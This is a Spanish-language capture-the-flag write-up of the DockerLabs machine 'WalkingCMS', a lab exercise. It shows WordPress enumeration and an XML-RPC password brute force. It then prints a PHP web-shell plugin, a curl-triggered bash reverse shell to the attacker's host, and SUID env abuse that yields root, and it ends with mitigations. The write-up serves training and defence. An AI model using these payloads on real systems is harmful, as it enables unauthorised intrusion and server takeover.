


# WalkingCMS — DockerLabs Writeup

**Platform:** DockerLabs | **Difficulty:** Easy | **Target IP:** 172.17.0.2 | 

## Descripcion 

Intrusión por fuerza bruta en el panel interno de wordpress y acceso al servidor desde dicho panel.

## Attack chain

**Nmap → Web Enumeration → Gobuster → WordPress Discovery → WPScan → User Enumeration → XML-RPC Brute Force → WordPress Admin Access → Malicious Plugin Upload → Remote Code Execution (RCE) → Reverse Shell → www-data Access → SUID Enumeration → SUID Abuse (/usr/bin/env) → Root**

## 1. Analisis y escaneo del objetivo.

Arrancamos con un escaneo completo de puertos con `nmap`:

```bash 
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/walkingcms]
└─$ nmap -sV -sC -p- 172.17.0.2 
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-29 21:39 -0300
Nmap scan report for chocolatelovers.dl (172.17.0.2)
Host is up (0.0000070s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    PHP cli server 5.5 or later
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 8A:1C:0D:40:56:58 (Unknown)
                                                                                                                                                                           
```
Solo el puerto 80 está abierto, corriendo con el servidor de desarrollo de PHP (`php -S`), mostrando una página default de Apache. El nombre de la máquina (walkingCMS) sugiere que hay un CMS alojado en alguna ruta no indexada. 

## 2. Enumeración

### 2.1 Descubrimiento de directorios

Al fuzzear con `gobuster`, el servidor devolvía 200 para rutas inexistentes (comportamiento de wildcard, típico del servidor de desarrollo de PHP):

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -x php,html,htm,txt,bak,old,zip,conf,config,log
                                
```

```
the server returns a status code that matches the provided options for non existing urls.
http://172.17.0.2/42eab1f4-f0aa-40e3-9737-a4044551b26f => 200 (Length: 10701)
```
Se filtró por el tamaño de respuesta "falso" (`10701` bytes):

```BASH
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/walkingcms]
└─$ gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -x php,html,htm,txt,bak,old,zip,conf,config,log --exclude-length 10701
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt
[+] Negative Status codes:   404
[+] Exclude Length:          10701
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              old,log,html,txt,zip,conf,config,php,htm,bak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
wordpress            (Status: 301) [Size: 0] [--> http://172.17.0.2/wordpress/]
router.php           (Status: 200) [Size: 0]
Progress: 685091 / 685091 (100.00%)
===============================================================
Finished
===============================================================

```

Resultado: se encontró la ruta `/wordpress` (301).

### 2.2 Fingerprinting con WPScan

```bash

wpscan --url http://172.17.0.2/wordpress/

```

•WordPress: v7.1.3 (última versión)
•Tema activo: twentytwentytwo
•XML-RPC: habilitado (`xmlrpc.php`)
•Core y tema actualizados → no hay vector por CVE conocida en ese frente.

### 2.3 Enumeración de usuarios

```bash
wpscan --url http://172.17.0.2/wordpress/ --enumerate u

```

```bash
[+] Enumerating Users (via Passive and Aggressive Methods)

[+] mario
 | Found By: Rss Generator (Passive Detection)
 Brute Forcing Author IDs - Time: 00:00:00 <==============================================================> (10 / 10) 100.00% Time: 00:00:00
[i] 1 user(s) Identified.

```
Se identificó el usuario mario a través del feed RSS de WordPress, que expone el nombre del autor de cada post en la etiqueta `<dc:creator>.`


## 3. Explotación

### 3.1 Fuerza bruta de credenciales

Con el usuario confirmado, se realizó un ataque de diccionario contra XML-RPC (más rápido que `wp-login.php` por permitir `system.multicall`):

```bash
wpscan --url http://172.17.0.2/wordpress/ --usernames mario --passwords /usr/share/wordlists/rockyou.txt --max-threads 50

```

```bash
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - mario / love                                                                                                                    
Trying mario / dolphins Time: 00:00:26 <================================================================> (400 / 400) 100.00% Time: 00:00:26

[!] Valid Combinations Found:
 | Username: mario, Password: love

```
Credenciales obtenidas: `mario:love`

### 3.2 RCE vía plugin malicioso



Con acceso al panel de administración, se subió un plugin con código PHP arbitrario.

shell.php:

```php

<?php
/*
Plugin Name: Shell
*/
system($_GET['cmd']);
?>

```
Empaquetado respetando la estructura esperada por WordPress:

```bash
mkdir shell
mv shell.php shell/
zip -r shell.zip shell/

```
Subido desde **Plugins → Añadir nuevo → Subir plugin**, y activado (el código solo se ejecuta tras la activación, al hacer WordPress el `include` del archivo).

Confirmación de ejecución remota:



### 3.3 Obtención de shell

Con RCE confirmado, se puso un listener en la máquina atacante:

```bash
nc -lvnp 4444

```
Y se disparó una reverse shell a través del parámetro `cmd` del plugin:

```bash
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/walkingcms]
└─$ curl "http://172.17.0.2/wordpress/wp-content/plugins/shell/shell.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/172.17.0.1/4444+0>%261'"

```
### 3.4 Estabilización de la TTY

```
script -qc /bin/bash /dev/null
```

```bash
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/walkingcms]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 50624
bash: cannot set terminal process group (230): Inappropriate ioctl for device
bash: no job control in this shell
www-data@e2e956de01d6:~/html/wordpress/wp-content/plugins/shell$ script -qc /bin/bash /dev/null
<ntent/plugins/shell$ script -qc /bin/bash /dev/null             
www-data@e2e956de01d6:~/html/wordpress/wp-content/plugins/shell$ ^Z
zsh: suspended  nc -lvnp 4444
                                                                                                                                            
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/02-faciles/walkingcms]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 4444

www-data@e2e956de01d6:~/html/wordpress/wp-content/plugins/shell$ stty rows 21  
www-data@e2e956de01d6:~/html/wordpress/wp-content/plugins/shell$ stty columns 140
www-data@e2e956de01d6:~/html/wordpress/wp-content/plugins/shell$ 

```
### 4. Escalada de privilegios

Enumeración de binarios SUID:

```bash
find / -perm -4000 2>/dev/null

```

```bash
www-data@e2e956de01d6:~/html/wordpress/wp-content/plugins/shell$ find / -perm -4000 2>/dev/null
/usr/bin/env
/usr/bin/umount
/usr/bin/mount
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/su
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
www-data@e2e956de01d6:~/html/wordpress/wp-content/plugins/shell$ 

```
`/usr/bin/env` con bit SUID es un vector directo documentado en GTFOBins:

```
/usr/bin/env /bin/bash -p
```

El flag -p mantiene los privilegios efectivos del proceso (sin él, bash renuncia a ellos al detectar que uid real ≠ uid efectivo).

```bash
www-data@e2e956de01d6:~/html/wordpress/wp-content/plugins/shell$ /usr/bin/env /bin/bash -p
bash-5.2# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
bash-5.2# whoami
root
bash-5.2# 

```

# Conclusión

A partir del escaneo inicial con **Nmap**, se identificó un servidor web en el puerto `80`. Mediante **Gobuster**, se descubrió el directorio `/wordpress` y, utilizando **WPScan**, se identificó el usuario `mario`.

Posteriormente, se realizó un ataque de fuerza bruta contra XML-RPC, obteniendo la contraseña `love`. Con estas credenciales se accedió al panel de administración de WordPress y se instaló un plugin malicioso que permitió ejecutar comandos remotamente y obtener una reverse shell como `www-data`.

Finalmente, mediante la enumeración de binarios SUID, se descubrió que `/usr/bin/env` tenía permisos especiales. Aprovechando esta configuración, se ejecutó `bash -p` para conservar los privilegios efectivos y obtener acceso como **root**.

En conclusión, la máquina **WalkingCMS** demuestra cómo las contraseñas débiles, la exposición de información de usuarios y los permisos SUID mal configurados pueden permitir comprometer completamente un servidor.

| Vulnerabilidad / Técnica | Impacto | Mitigación |
|---|---|---|
| **Exposición de usuarios mediante RSS** | Facilita la identificación de cuentas para ataques de fuerza bruta. | Limitar la información pública expuesta por WordPress. |
| **Contraseña débil (`mario:love`)** | Permite acceder al panel mediante ataques de diccionario. | Utilizar contraseñas robustas y mecanismos de protección contra fuerza bruta. |
| **Instalación de plugins maliciosos** | Permite ejecutar comandos remotamente en el servidor. | Restringir la instalación de plugins a usuarios autorizados. |
| **Binario `/usr/bin/env` con SUID** | Permite obtener una shell con privilegios efectivos de `root`. | Eliminar permisos SUID innecesarios y auditar los binarios del sistema. |

## Recomendaciones generales

- Utilizar contraseñas robustas y únicas.
- Implementar protección contra ataques de fuerza bruta.
- Restringir la instalación de plugins en WordPress.
- Mantener WordPress y sus componentes actualizados.
- Auditar periódicamente los permisos SUID.
- Aplicar el principio de mínimo privilegio.
